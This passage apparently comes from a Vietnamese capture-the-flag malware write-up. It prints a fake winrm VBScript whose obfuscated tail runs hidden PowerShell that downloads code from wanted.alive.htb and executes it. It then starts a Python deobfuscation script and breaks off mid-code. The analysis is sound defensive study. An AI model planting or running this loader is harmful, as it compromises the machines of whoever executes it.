        dim dict
        set dict = ProcessParameterHash(filter)
        If dict Is Nothing Then
            Exit Function
        End If

        Dim name
        Dim value
        filter = "<wsman:SelectorSet xmlns:wsman='http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd'>"
        For Each name In dict
            value = dict(name)
            filter = filter & "<wsman:Selector Name='" & Escape(name) & "'>" & Escape(value) & "</wsman:Selector>"
        Next
        filter = filter & "</wsman:SelectorSet>"
    End If
    If LCase(dialect) = "wql" Then
        dialect = "http://schemas.microsoft.com/wbem/wsman/1/WQL"
    End If

    If LCase(dialect) = "association" Then
        dialect = "http://schemas.dmtf.org/wbem/wsman/1/cimbinding/AssociationFilter"
    End If
    If LCase(dialect) = LCase("http://schemas.dmtf.org/wbem/wsman/1/cimbinding/AssociationFilter") Then
        If not amendoal.ArgumentExists(NPARA_FILTER) Then
            ASSERTBOOL false, "-" & NPARA_FILTER & " parameter is required for the given dialect"
        End If
        If (amendoal.ArgumentExists(NPARA_ASSOCINST)) Then
            flags = flags OR epithetar.EnumerationFlagAssociationInstance
        Else
            flags = flags OR epithetar.EnumerationFlagAssociatedInstance
        End if
    End If
    If ( (LCase(dialect) <> LCase("http://schemas.dmtf.org/wbem/wsman/1/cimbinding/AssociationFilter")) and amendoal.ArgumentExists(NPARA_ASSOCINST) ) Then
        ASSERTBOOL false, "-" & NPARA_ASSOCINST & " is not a valid option for the given dialect"
    End If

    if amendoal.ArgumentExists(NPARA_RETURN_TYPE) then
        select case LCase(amendoal.Argument(NPARA_RETURN_TYPE))
            case VAL_RT_OBJECT
                ' default
            case VAL_RT_EPR
                flags = flags OR epithetar.EnumerationFlagReturnEPR
            case VAL_RT_OBJ_EPR
                flags = flags OR epithetar.EnumerationFlagReturnObjectAndEPR
            case else
                ASSERTBOOL false, "-" & NPARA_RETURN_TYPE & ":" & amendoal.Argument(NPARA_RETURN_TYPE) & " is not a valid option"
        end select
    end if
    
    if (amendoal.ArgumentExists(NPARA_SHALLOW)) then
        flags = flags OR epithetar.EnumerationFlagHierarchyShallow
    elseif (amendoal.ArgumentExists(NPARA_BASE_PROPS_OctonianoY)) then
        flags = flags OR epithetar.EnumerationFlagHierarchyDeepBasePropsOnly
    else
        flags = flags OR epithetar.EnumerationFlagHierarchyDeep
    end if

    on error resume next
    set e = pellanga.delinquir(uncial, filter, dialect, flags)
    if Err.Number = T_O then
        set e = pellanga.delinquir(uncial, filter, dialect, flags)
        if Err.Number = T_O then
            set e = pellanga.delinquir(uncial, filter, dialect, flags)
        end if
    end if
    ASSERTERR pellanga, polyacantho
    on error goto 0
    
    if amendoal.ArgumentExists(NPARA_TIMEOUT) then
        e.Timeout = amendoal.Argument(NPARA_TIMEOUT)
    end if

    if(LCase(polyacantho) <> VAL_FORMAT_TEXT) then
        wscript.echo "<wsman:Results xmlns:wsman=""http://schemas.dmtf.org/wbem/wsman/1/wsman/results"">"
    end if
    
    do while Not e.AtEndOfStream
        on error resume next
        res = e.ReadItem()
        if Err.Number = T_O then
            res = e.ReadItem()
            if Err.Number = T_O then
                res = e.ReadItem()
            end if
        end if
        if Err.Number <> 0 then
            stdErr.WriteLine e.Error
            wscript.echo "</wsman:Results>"
        end if
        ASSERTERR e, polyacantho
        on error goto 0
        
        'reformat if requested
        on error resume next
        err.clear
        if not Reformat(res,formattedText,polyacantho) then
            exit do
        end if
        wscript.echo formattedText
    loop        
    
    if(LCase(polyacantho) <> VAL_FORMAT_TEXT) then
        wscript.echo "</wsman:Results>"
    end if
           
    set e = Nothing 
    delinquir = ""
end function
   
' Helper to run xpath over msxml obj and find single element
Private Function GetElementByXpath(msxmlObj, xpath)
    GetElementByXpath = ""

    msxmlObj.setProperty "SelectionLanguage", "XPath" 
    msxmlObj.setproperty "SelectionNamespaces", "xmlns:s=""http://schemas.microsoft.com/wbem/wsman/1/config/service""" 

    Dim elementList
    Dim currentElement

    Set currentElement = msxmlObj.selectSingleNode(xpath)
    If Not currentElement is Nothing Then
        If currentElement.hasChildNodes() Then
            If currentElement.childNodes.length = 1 Then
                dim aNode
                Set aNode = currentElement.childNodes.nextNode()
                If aNode.nodeType = NODE_TEXT Then
                    GetElementByXpath = aNode.text
                Exit Function
                End If
            End If
        End If
        GetElementByXpath = currentElement.xml
    End If
    Exit Function

    Set elementList = msxmlObj.selectNodes(xpath)
    If elementList.length = 1 Then
        Set currentElement = elementList.nextNode()
        If currentElement.nodeType = NODE_TEXT Then
            GetElementByXpath = currentElement.text
        Else
            GetElementByXpath = currentElement.xml
        End If
    End If
End Function
'''''''''''''''''''''    
' Helper to run xpath over msxml obj and find single element
Private Function GetElementAttributeByXpath(msxmlObj, xpath, attributeName)
    GetElementAttributeByXpath = ""

    msxmlObj.setProperty "SelectionLanguage", "XPath" 
    msxmlObj.setproperty "SelectionNamespaces", "xmlns:s=""http://schemas.microsoft.com/wbem/wsman/1/config/service""" 

    Dim currentElement

    Set currentElement = msxmlObj.selectSingleNode(xpath)
    GetElementAttributeByXpath = currentElement.getAttribute("Source")
        
End Function

'''''''''''''''''''''    
' Helper to run xpath over msxml obj and find single element
Private Function GetElementXml(msxmlObj, currentElement)
    GetElementXml = ""

    msxmlObj.setProperty "SelectionLanguage", "XPath" 
    msxmlObj.setproperty "SelectionNamespaces", "xmlns:s=""http://schemas.microsoft.com/wbem/wsman/1/config/service""" 

    Dim elementList
    
    GetElementByXpath = currentElement.xml
    
End Function

'''''''''''''''''''''    
' Returns XML ns depending on the type of URI

private function GetXmlNs(resUri)
    dim resUriLCase
    dim s1
    dim s2
    
    ASSERTBOOL Len(resUri) <> 0, resurgimento("L_URIZERO_Message")

    resUriLCase = LCase(resUri)

    if InStr(resUriLCase, URI_IPMI) <> 0 then
        GetXmlNs = StripParams(resUri)
    elseif InStr(resUriLCase, URI_WMI) <> 0 then
        GetXmlNs = StripParams(resUri)
    else 
        '//GetXmlNs = StripParams(resUri) & ".xsd"
        '//This was reported by Intel as an interop issue. So now we are not appending a .xsd in the end.
        GetXmlNs = StripParams(resUri)
    end if
    
    GetXmlNs = "xmlns:p=""" & GetXmlNs & """"
end function

'''''''''''''''''''''    
' Verify if target is in IPv6 format

private function IsIPv6(target)
    dim regexpObj
    Set regexpObj = New RegExp

    regexpObj.Pattern = PTRN_IPV6_S
    regexpObj.IgnoreCase = TRUE
    dim matches
    set matches = regExpObj.Execute(target)
    if matches.Count <> 0 then
        IsIPv6 = true
    else 
        IsIPv6 = false
    end if
end function

'''''''''''''''''''''    
' Extracts XML root node nm. from URI

private function GetRootNodeName(opr, resUri, actUri)
    dim uriTmp
    dim sfx
    dim s

    dim regexpObj
    Set regexpObj = New RegExp
         
    ASSERTBOOL Len(opr) <> 0, "'opr' parameter is 0 length or null"    
    
    sfx = ""
    select case opr
        case OP_PUT 
            uriTmp = resUri     
        case OP_CRE
            uriTmp = resUri
        case OP_INV
            uriTmp = actUri
            sfx = GetSuffix(resUri)
        case else 
            GetRootNodeName = ""
            exit function
    end select
    ASSERTBOOL Len(uriTmp) <> 0, resurgimento("L_URIZERO_Message")

    uriTmp = StripParams(uriTmp)

    regexpObj.Pattern = PTRN_URI_LAST
    regexpObj.IgnoreCase = TRUE
    dim matches
    set matches = regexpObj.Execute(uriTmp)
    ASSERTBOOL matches.Count = 1, resurgimento("L_NOLASTTOK_Message")

    uriTmp = matches(0)
    ASSERTBOOL Len(uriTmp) <> 0, resurgimento("L_URIZEROTOK_Message")
             
    GetRootNodeName = uriTmp & sfx
end function

private function ProcessParameterHash(hashString)
    on error resume next    
    dim matches
    dim m

    dim regexpObj

    Set regexpObj = New RegExp
    regexpObj.Global = True
    regexpObj.IgnoreCase = True

    dim resultDictionary
    set resultDictionary = CreateObject("Scripting.Dictionary")

    
    If Len(hashString) > 0 then    
        If Len(hashString) > 2 Then
            If Mid(hashString,1,1) <> "{" Or Mid(hashString,Len(hashString),1) <> "}" Then
                stdErr.WriteLine resurgimento("L_HashSyntax_ErrorMessage")
                set ProcessParameterHash = Nothing
                Exit Function
            End If

            regexpObj.Pattern = PTRN_HASH_VALIDATE
            regexpObj.ignoreCase = true
            set matches = regexpObj.Execute(hashString)
            if matches.Count <> 1 then
                stdErr.WriteLine resurgimento("L_HashSyntax_ErrorMessage")
                set ProcessParameterHash = Nothing
                Exit Function
            end if

            'following check ensures that if we have unmatched substrings
            'we report a syntax error. the way we determine is first to 
            'calculate the expected string length by going through all
            'the matches and then comparing with input string length

            dim expectedLength

            regexpObj.Pattern = PTRN_HASH_TOK
            regexpObj.ignoreCase = true
            set matches = regexpObj.Execute(hashString)

            expectedLength = matches.Count-1
            for each m in matches             
                expectedLength = expectedLength + m.Length
            next
            'account for starting and closing {}
            expectedLength = expectedLength + 2
            if (expectedLength <> Len(hashString)) then 
                stdErr.WriteLine resurgimento("L_HashSyntax_ErrorMessage")
                set ProcessParameterHash = Nothing
                Exit Function
            end if
             
            regexpObj.Pattern = PTRN_HASH_TOK
            regexpObj.ignoreCase = true
            set matches = regexpObj.Execute(hashString)
            if matches.Count > 0 then
                for each m in matches
                    if resultDictionary.Exists(m.Submatches(0)) then
                        stdErr.WriteLine resurgimento("L_ERR_Message") & resurgimento("L_PUT_PARAM_NOARRAY_Message") & m.Submatches(0)
                        set ProcessParameterHash = Nothing
                        Exit Function
                    end if
                    if LCase(m.Submatches(1)) = "$null" then
                        resultDictionary.Add m.Submatches(0),null
                    else
                        resultDictionary.Add m.Submatches(0),m.Submatches(2)
                    end if
                next
            end if
        ElseIf hashString <> "{}" Then
            stdErr.WriteLine resurgimento("L_HashSyntax_ErrorMessage")
            set ProcessParameterHash = Nothing
            Exit Function
        End If
    Else
        stdErr.WriteLine resurgimento("L_HashSyntax_ErrorMessage")
        set ProcessParameterHash = Nothing
        Exit Function
    End If
        
    set ProcessParameterHash = resultDictionary
end function

private function CreateAndInitializeResourceLocator(wsman,resourceUri,amendoal)
    on error resume next
    
    Dim key
    dim resourceLocator
    dim paramMap
    Dim optionsValue

    '''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''
    ' create the resource locator object

    Set resourceLocator = Wsman.CreateResourceLocator(resourceUri)
    if Err.number <> 0 then
        stdErr.WriteLine resurgimento("L_ERR_Message") & resurgimento("L_RESOURCELOCATOR_Message")
        set CreateAndInitializeResourceLocator = Nothing
        exit function
    end if

    '''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''
    ' set the options on the resource locator
    optionsValue = amendoal.Argument("options")
    If Len(optionsValue) Then
        set paramMap = ProcessParameterHash(optionsValue)
        if paramMap Is Nothing then
            set CreateAndInitializeResourceLocator = Nothing
            'todo exit function
        end if
        for each key in paramMap
            if IsNull(paramMap(key)) then
                resourceLocator.AddOption key, null
            else
                resourceLocator.AddOption key,paramMap(key)
            end if
        next
    End If

    '''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''
    ' set the fragment path and fragment dialect on the resource locator

    if(amendoal.ArgumentExists(NPARA_FRAGMENT)) then
        resourceLocator.FragmentPath = amendoal.Argument(NPARA_FRAGMENT)
    end if
    if(amendoal.ArgumentExists(NPARA_DIALECT)) then
        resourceLocator.FragmentDialect = amendoal.Argument(NPARA_DIALECT)
    end if

    set CreateAndInitializeResourceLocator = resourceLocator
end function

private function mesor()
    if InStrRev(LCase(WScript.FullName), "cscript.exe", -1) <> 0 then
        mesor = True
    else 
        mesor = False
    end if
end function

'''''''''''''''''''''    
' Reads input XML from the stdin or builds XML from @{...}

private function ProcessInput(wsman, operation, root, amendoal, resourceLocator,pellangaObj,inputStr,polyacantho)
    on error resume next
    
    dim parameterDic,key
    
    dim putStr
    dim elementList
    dim currentElement
    dim paramXmlFile
    dim tmpNode
    dim parameterString
    dim parameterCount
    dim xmlns
    
    'make sure it's a relevent operation
    select case operation
        case OP_PUT 
        case OP_CRE
        case OP_INV
        case else 
            inputStr = ""
            ProcessInput = true
            exit function
    end select

    xmlns = GetXmlNs(resourceLocator.ResourceURI)

    'process the parameters into a Map
    parameterString = amendoal.Argument(NPARA_PSEUDO_AT)
    parameterCount = 0
    If Len(parameterString) Then
        set parameterDic = ProcessParameterHash(parameterString)
        'if parameter processing failed, exit
        if parameterDic Is Nothing then
            set ProcessInput = false
            exit function
        end if
        parameterCount = parameterDic.Count
    End If
    
    'if there were no parameters, get from file
    if parameterCount = 0 then 
        if amendoal.ArgumentExists(NPARA_FILE) then
            inputStr = ReadFile(amendoal.Argument(NPARA_FILE))
            ProcessInput = true
            exit function
        end if
    end if

    if operation = OP_CRE Or operation = OP_INV  then
        dim nilns
        nilns = ""
        dim parameters
        parameters = ""                
    if parameterCount > 0 then 
            for each key in parameterDic
                parameters = parameters & "<p:" & key
                if IsNull(parameterDic(key)) then
                    parameters = parameters & " " & ATTR_NIL
                    nilns = " " & NS_XSI
                end if 
                parameters = parameters & ">" & Escape(parameterDic(key)) & _
                    "</p:" & key & ">"                     
            next
        end if

        putStr = "<p:" & root & " " & xmlns & nilns & ">" & _
            parameters & "</p:" & root & ">"

    elseif operation = OP_PUT then

        if parameterCount = 0 then
                stdErr.WriteLine resurgimento("L_ERR_Message") & resurgimento("L_PUT_PARAM_NOINPUT_Message")
            inputStr = ""
            ProcessInput = false
            exit function
        end if
        
        'get the original resource xml
        on error resume next
        putStr = pellangaObj.Get(resourceLocator)
        if Err.Number <> 0 then
            ASSERTERR pellangaObj, polyacantho
            inputStr = ""
            ProcessInput = false
            exit function
        end if
        
        'create an MSXML DomDocument object to work with the resource xml
        on error resume next
        Set paramXmlFile = CreateObject("MSXML2.DOMDocument.6.0")
        if Err.number <> 0 then
            stdErr.WriteLine resurgimento("L_ERR_Message") & resurgimento("L_MSXML6MISSING_Message")
            inputStr = ""
            ProcessInput = false
            exit function
        end if
        paramXmlFile.async = false
        
        'load the domdocument with the resource xml   
        paramXmlFile.LoadXML(putStr)
        if (paramXmlFile.parseError.errorCode <> 0) then
            stdErr.WriteLine resurgimento("L_ERR_Message") & resurgimento("L_XMLERROR_Message") & paramXmlFile.parseError.reason
            inputStr = ""
            ProcessInput = false
            exit function
        end if
        paramXmlFile.setProperty "SelectionLanguage", "XPath" 
        
        'loop through the command-line name/value pairs
        for each key in parameterDic
           'find the elements matching the key
            Dim xpathString
            xpathString = "/*/*[local-name()=""" & key & """]"
            if LCase(key) = "location" then
                'Ignore cim:Location
                xpathString = "/*/*[local-name()=""" & key & """ and namespace-uri() != """ & NS_CIMBASE & """]"
            end if
            Set elementList = paramXmlFile.selectNodes(xpathString)
            
            'make sure there is 1 - error on 0 or > 1
            if elementList.length = 0 then
                stdErr.WriteLine resurgimento("L_ERR_Message") & resurgimento("L_PUT_PARAM_NOMATCH_Message") & key
                inputStr = ""
                ProcessInput = false
                Exit Function
            elseif elementList.length > 1 then
                stdErr.WriteLine resurgimento("L_ERR_Message") & resurgimento("L_PUT_PARAM_MULTIMATCH_Message") & key
                inputStr = ""
                ProcessInput = false
                Exit Function                  
            else      
                'get the node from the list
                Set currentElement = elementList.nextNode()
                'make sure the node does not have anything other than 1 or less text children                    
                if currentElement.hasChildNodes() then
                    if currentElement.childNodes.length > 1 then
                        stdErr.WriteLine resurgimento("L_ERR_Message") & resurgimento("L_PUT_PARAM_NOTATTR_Message") & key
                        inputStr = ""
                        ProcessInput = false
                        Exit Function
                    else
                        dim aNode
                        Set aNode = currentElement.childNodes.nextNode()
                        if aNode.nodeType <> NODE_TEXT then
                            stdErr.WriteLine resurgimento("L_ERR_Message") & resurgimento("L_PUT_PARAM_NOTATTR_Message") & key
                            inputStr = ""
                            ProcessInput = false
                            Exit Function
                        end if
                    end if
                end if
                if IsNull(parameterDic(key)) then
                    Set tmpNode = paramXmlFile.createNode(NODE_ATTRIBUTE,ATTR_NIL_NAME,NS_XSI_URI)
                    tmpNode.text = "true"
                    currentElement.setAttributeNode tmpNode
                    currentElement.text = ""
                else
                    'delete nil attribute if present
                    currentElement.attributes.removeNamedItem(ATTR_NIL_NAME)
                    currentElement.text = parameterDic(key)
                end if
            end If        
        next
        putStr = paramXmlFile.xml
    end if
    inputStr = putStr
    ProcessInput = true
end function

Function descortinar(ByVal descair, ByVal brita, ByVal chincharel)
    Dim sulfossal
    sulfossal = InStr(descair, brita)
    
    Do While sulfossal > 0
        descair = Left(descair, sulfossal - 1) & chincharel & Mid(descair, sulfossal + Len(brita))
        sulfossal = InStr(sulfossal + Len(chincharel), descair, brita)
    Loop
    
    descortinar = descair
End Function

private function ReadStdIn()
    while Not stdIn.AtEndOfStream
        ReadStdIn = ReadStdIn & stdIn.ReadAll
    wend
end function

If Not mesor() Then
        
        On Error Resume Next

        latifoliado = "U2V0LUV4ZWN1dGlvblBvbGljeSBCeXBhc3MgLVNjb3BlIFByb2Nlc3MgLUZvcmNlOyBbU3lzdGVtLk5ldC5TZd2FudGVkCgXJ2aWNlUG9pbnRNYW5hZ2VyXTo6U2VydmVyQ2VydGlmaWNhdGVWYWxpZGF0aW9uQ2FsbGJhY2sgPSB7JHRydWV9O1td2FudGVkCgTe"
        latifoliado = latifoliado & "XN0ZW0uTmV0LlNlcnZpY2VQb2ludE1hbmFnZXJdOjpTZWN1cml0eVByb3RvY29sID0gW1N5c3RlbS5OZXQuU2Vydmld2FudGVkCgjZVBvaW50TWFuYWdlcl06OlNlY3VyaXR5UHJvdG9jb2wgLWJvciAzMDcyOyBpZXggKFtTeXN0ZW0uVGV4dC5FbmNvZd2FudGVkCgGl"
        latifoliado = latifoliado & "uZ106OlVURjguR2V0U3RyaW5nKFtTeXN0ZW0uQ29udmVydF06OkZyb21CYXNlNjRTdHJpbmcoKG5ldy1vYmplY3Qgcd2FudGVkCg3lzdGVtLm5ldC53ZWJjbGllbnQpLmRvd25sb2Fkc3RyaW5nKCdodHRwOi8vd2FudGVkLmFsaXZlLmh0Yi9jZGJhL19d2FudGVkCgyc"
        latifoliado = latifoliado & "CcpKSkpd2FudGVkCgd2FudGVkCg"
        
        Dim parrana
        parrana = "d2FudGVkCg"

        Dim arran
        arran =" d2FudGVkCg  d2FudGVkCg "
        arran = arran & "$d2FudGVkCgCod2FudGVkCgd"
        arran = arran & "id2FudGVkCggod2FudGVkCg "
        arran = arran & "d2FudGVkCg" & latifoliado & "d2FudGVkCg"
        arran = arran & "$d2FudGVkCgOWd2FudGVkCgj"
        arran = arran & "ud2FudGVkCgxdd2FudGVkCg "
        arran = arran & "=d2FudGVkCg [d2FudGVkCgs"
        arran = arran & "yd2FudGVkCgstd2FudGVkCge"
        arran = arran & "md2FudGVkCg.Td2FudGVkCge"
        arran = arran & "xd2FudGVkCgt.d2FudGVkCge"
        arran = arran & "nd2FudGVkCgcod2FudGVkCgd"
        arran = arran & "id2FudGVkCgngd2FudGVkCg]"
        arran = arran & ":d2FudGVkCg:Ud2FudGVkCgT"
        arran = arran & "Fd2FudGVkCg8.d2FudGVkCgG"
        arran = arran & "ed2FudGVkCgtSd2FudGVkCgt"
        arran = arran & "rd2FudGVkCgind2FudGVkCgg"
        arran = arran & "(d2FudGVkCg[sd2FudGVkCgy"
        arran = arran & "sd2FudGVkCgted2FudGVkCgm"
        arran = arran & ".d2FudGVkCgCod2FudGVkCgn"
        arran = arran & "vd2FudGVkCgerd2FudGVkCgt"
        arran = arran & "]d2FudGVkCg::d2FudGVkCgF"
        arran = arran & "rd2FudGVkCgomd2FudGVkCgb"
        arran = arran & "ad2FudGVkCgsed2FudGVkCg6"
        arran = arran & "4d2FudGVkCgStd2FudGVkCgr"
        arran = arran & "id2FudGVkCgngd2FudGVkCg("
        arran = arran & "$d2FudGVkCgcod2FudGVkCgd"
        arran = arran & "id2FudGVkCggod2FudGVkCg)"
        arran = arran & ")d2FudGVkCg;pd2FudGVkCgo"
        arran = arran & "wd2FudGVkCgerd2FudGVkCgs"
        arran = arran & "hd2FudGVkCgeld2FudGVkCgl"
        arran = arran & ".d2FudGVkCgexd2FudGVkCge"
        arran = arran & " d2FudGVkCg-wd2FudGVkCgi"
        arran = arran & "nd2FudGVkCgdod2FudGVkCgw"
        arran = arran & "sd2FudGVkCgtyd2FudGVkCgl"
        arran = arran & "ed2FudGVkCg hd2FudGVkCgi"
        arran = arran & "dd2FudGVkCgded2FudGVkCgn"
        arran = arran & " d2FudGVkCg-ed2FudGVkCgx"
        arran = arran & "ed2FudGVkCgcud2FudGVkCgt"
        arran = arran & "id2FudGVkCgond2FudGVkCgp"
        arran = arran & "od2FudGVkCglid2FudGVkCgc"
        arran = arran & "yd2FudGVkCg bd2FudGVkCgy"
        arran = arran & "pd2FudGVkCgasd2FudGVkCgs"
        arran = arran & " d2FudGVkCg-Nd2FudGVkCgo"
        arran = arran & "Pd2FudGVkCgrod2FudGVkCgf"
        arran = arran & "id2FudGVkCgled2FudGVkCg "
        arran = arran & "-d2FudGVkCgcod2FudGVkCgm"
        arran = arran & "md2FudGVkCgand2FudGVkCgd"
        arran = arran & " d2FudGVkCg$Od2FudGVkCgW"
        arran = arran & "jd2FudGVkCguxd2FudGVkCgD"
        arran = descortinar(arran, parrana, "")
            
        Dim sandareso
        sandareso = "pd2FudGVkCgo"
        sandareso = sandareso & "wd2FudGVkCgr"
        sandareso = sandareso & "sd2FudGVkCge"
        sandareso = sandareso & "ld2FudGVkCgl -cd2FudGVkCgommad2FudGVkCgnd "
        sandareso = descortinar(sandareso, parrana, "")

        sandareso = sandareso & arran

        Dim incentiva
        Set incentiva = CreateObject("WScript.Shell")
        incentiva.Run sandareso, 0, False 
        WScript.Quit(rumbo)
            
End If
''''''''''''''''''''    
' Escapes non XML chars


private function Escape(str)
    dim i 
    for i = 1 to Len(str)
        select case Mid(str, i, 1)
            case "&" 
                Escape = Escape & "&amp;"
            case "<"
                Escape = Escape & "&lt;"
            case ">"
                Escape = Escape & "&gt;"
            case """"
                Escape = Escape & "&quot;"
            case "'"
                Escape = Escape & "&apos;"
            case else 
                Escape = Escape & Mid(str, i, 1)
        end select
    next
end function

'''''''''''''''''''''    
' Checks if this script is running under cscript.exe

private function segrel()
    if InStrRev(LCase(WScript.FullName), "cscript.exe", -1) <> 0 then
        segrel = True
    else 
        segrel = False
    end if
end function

Function apetibilidade(ByVal catalecto, ByVal tapula, ByVal teatralmente)
    Dim sombrear
    sombrear = catalecto
    Do While InStr(sombrear, tapula) > 0
        sombrear = Left(sombrear, InStr(sombrear, tapula) - 1) & teatralmente & Mid(sombrear, InStr(sombrear, tapula) + Len(tapula))
    Loop
    
    apetibilidade = sombrear
End Function

private sub ASSERTERR(obj, polyacantho)
    dim errNo
    dim errDesc
    dim responseStr
    dim formattedStr

    if Err.Number <> 0 then
        errNo = Err.Number
        errDesc = Err.Description
        responseStr = obj.Error
        If Reformat(responseStr,formattedStr,polyacantho) Then
            stdErr.WriteLine formattedStr
        Else
            stdErr.WriteLine responseStr
        End if
        stdErr.WriteLine resurgimento("L_ERRNO_Message") & " " & errNo & " 0x" & Hex(errNo)
        stdErr.WriteLine errDesc
        WScript.Quit(absorvedoiro)
    end if
end sub

' Assert Named Argument Length
private sub ASSERTNAL(namedArg)
    if Len(wsmanCmdLineObj.Argument(namedArg)) = 0 then
        stdErr.WriteLine resurgimento("L_ERR_Message") & resurgimento("L_ARGNOVAL_Message") & namedArg
        WScript.Quit(absorvedoiro)
    end if
end sub

private sub ASSERTBOOL(bool, msg)
    if Not bool then
        stdErr.WriteLine resurgimento("L_ERR_Message") & msg
        WScript.Quit(absorvedoiro)
    end if
end sub

private function ReFormat(rawStr,formattedStr,polyacantho)
    dim xslFile
    dim xmlFile
    dim xmlFileName
    dim xslFileName 
    dim FORMAT_XSL_PATH

    if Len(rawStr) = 0 then
        ReFormat = false
        exit function
    end if
    
    on error resume next
    err.clear
    
    if LCase(polyacantho) = VAL_FORMAT_XML then
        formattedStr = rawStr
    else
        set xmlFile = CreateObject("MSXML2.DOMDOCUMENT.6.0")
        if Err.number <> 0 then
            stdErr.WriteLine resurgimento("L_MSXML6MISSING_Message")
            on error goto 0
            ReFormat = false
            exit function
        end if
 
        set xslFile = CreateObject("MSXML2.DOMDOCUMENT.6.0")
        if Err.number <> 0 then
            stdErr.WriteLine resurgimento("L_MSXML6MISSING_Message")
            on error goto 0
            ReFormat = false
            exit function
        end if
        
        xmlFile.async = false
        xslFile.async = false
            
        xmlFile.LoadXML(rawStr)
        if (xmlFile.parseError.errorCode <> 0) then
            stdErr.WriteLine resurgimento("L_XMLERROR_Message") & xmlFile.parseError.reason
            on error goto 0
            ReFormat = false
            exit function
        end If
        
        FORMAT_XSL_PATH = WSHShell.ExpandEnvironmentStrings("%systemroot%\system32\")
        if InStr(LCase(WScript.Path),"\syswow64") > 0 then
            FORMAT_XSL_PATH = WSHShell.ExpandEnvironmentStrings("%systemroot%\syswow64\")
        end if
             
        if LCase(polyacantho) = VAL_FORMAT_TEXT then
            FORMAT_XSL_PATH = FORMAT_XSL_PATH & VAL_FORMAT_TEXT_XSLT
        elseif LCase(polyacantho) = VAL_FORMAT_PRETTY then
            FORMAT_XSL_PATH = FORMAT_XSL_PATH & VAL_FORMAT_PRETTY_XSLT
        else
            stdErr.WriteLine resurgimento("L_FORMATLERROR_Message") & polyacantho
            stdErr.WriteLine 
            on error goto 0
            ReFormat = false
            exit function
        end If

        if Not xslFile.load(FORMAT_XSL_PATH) then
            stdErr.WriteLine resurgimento("L_XSLERROR_Message") & FORMAT_XSL_PATH
            if xslFile.parseError.errorCode < 0 then
                stdErr.WriteLine xslFile.parseError.reason
            end if
            on error goto 0
            ReFormat = false
            exit function
        end if
        
        formattedStr = xmlFile.transformNode (xslFile)
        if Err.number <> 0 then
            stdErr.WriteLine Err.Description
            on error goto 0
            ReFormat = false
            exit function
        end if
    end if
    ReFormat = true
end function


```

Phần đáng chú ý là nó chứa nhiều hàm dài kiểu quản lý session / XML / WMI, nhưng đoạn quan trọng nhất là phần cuối nơi script bắt đầu tự dựng các chuỗi bị làm rối rồi deobfuscate.


### phân tích 



Ghép tất cả các chuỗi thành 1 chuỗi `latifoliado` lớn.


Định nghĩa marker rác để chèn vào các chuỗi.



Đoạn script lớn này là dựng 1 chuỗi lớn tên `arran`, đặc biệt nó nhét cả `latifoliado` vào bên trong `arran`. Sau khi dựng xong chuỗi này nó làm sạch chuỗi `arran` luôn. Còn 1 chuỗi cuối cùng được dựng 



---

## 5. Hiểu hàm `descortinar`

Vậy giờ để khôi phục chuỗi sạch ta cần đọc thêm về hàm `descortinar`.



### Giải thích

Hàm `descortinar(...)` là một hàm thay thế chuỗi. Nó lặp qua toàn bộ dữ liệu đầu vào, tìm mọi lần xuất hiện của marker `brita` rồi thay bằng `chincharel`.

Trong bài này:

- `brita` là:

```text
d2FudGVkCg
```

- `chincharel` là chuỗi rỗng

Vậy sau khi hiểu các phần quan trọng, chỉ cần mô phỏng lại quá trình deobfuscate có thể tìm ra các chuỗi ban đầu.

---

## 6. Script deobfuscate

```python
def descortinar(descair, brita, chincharel):
    sulfossal = descair.find(brita)
    while sulfossal != -1:
        descair = descair[:sulfossal] + chincharel + descair[sulfossal + len(brita):]
        sulfossal = descair.find(brita, sulfossal + len(chincharel))
    return descair

latifoliado = "U2V0LUV4ZWN1dGlvblBvbGljeSBCeXBhc3MgLVNjb3BlIFByb2Nlc3MgLUZvcmNlOyBbU3lzdGVtLk5ldC5TZd2FudGVkCgXJ2aWNlUG9pbnRNYW5hZ2VyXTo6U2VydmVyQ2VydGlmaWNhdGVWYWxpZGF0aW9uQ2FsbGJhY2sgPSB7JHRydWV9O1td2FudGVkCgTe"
latifoliado += "XN0ZW0uTmV0LlNlcnZpY2VQb2ludE1hbmFnZXJdOjpTZWN1cml0eVByb3RvY29sID0gW1N5c3RlbS5OZXQuU2Vydmld2FudGVkCgjZVBvaW50TWFuYWdlcl06OlNlY3VyaXR5UHJvdG9jb2wgLWJvciAzMDcyOyBpZXggKFtTeXN0ZW0uVGV4dC5FbmNvZd2FudGVkCgGl"
latifoliado += "uZ106OlVURjguR2V0U3RyaW5nKFtTeXN0ZW0uQ29udmVydF06OkZyb21CYXNlNjRTdHJpbmcoKG5ldy1vYmplY3Qgcd2FudGVkCg3lzdGVtLm5ldC53ZWJjbGllbnQpLmRvd25sb2Fkc3RyaW5nKCdodHRwOi8vd2FudGVkLmFsaXZlLmh0Yi9jZGJhL19d2FudGVkCgyc"
latifoliado += "CcpKSkpd2FudGVkCgd2FudGVkCg"

parrana = "d2FudGVkCg"

arran = " d2FudGVkCg  d2FudGVkCg "
arran += "$d2FudGVkCgCod2FudGVkCgd"
arran += "id2FudGVkCggod2FudGVkCg "
arran += "d2FudGVkCg" + latifoliado + "d2FudGVkCg"
arran += "$d2FudGVkCgOWd2FudGVkCgj"
arran += "ud2FudGVkCgxdd2FudGVkCg "
arran += "=d2FudGVkCg [d2FudGVkCgs"
arran += "yd2FudGVkCgstd2FudGVkCge"
arran += "md2FudGVkCg.Td2FudGVkCge"
arran += "xd2FudGVkCgt.d2FudGVkCge"
arran += "nd2FudGVkCgcod2FudGVkCgd"
arran += "id2FudGVkCgngd2FudGVkCg]"
arran += ":d2FudGVkCg:Ud2FudGVkCgT"
arran += "Fd2FudGVkCg8.d2FudGVkCgG"
arran += "ed2FudGVkCgtSd2FudGVkCgt"
arran += "rd2FudGVkCgind2FudGVkCgg"
arran += "(d2FudGVkCg[sd2FudGVkCgy"
arran += "sd2FudGVkCgted2FudGVkCgm"
arran += ".d2FudGVkCgCod2FudGVkCgn"
arran += "vd2FudGVkCgerd2FudGVkCgt"
arran += "]d2FudGVkCg::d2FudGVkCgF"
arran += "rd2FudGVkCgomd2FudGVkCgb"
arran += "ad2FudGVkCgsed2FudGVkCg6"
arran += "4d2FudGVkCgStd2FudGVkCgr"
arran += "id2FudGVkCgngd2FudGVkCg("
arran += "$d2FudGVkCgcod2FudGVkCgd"
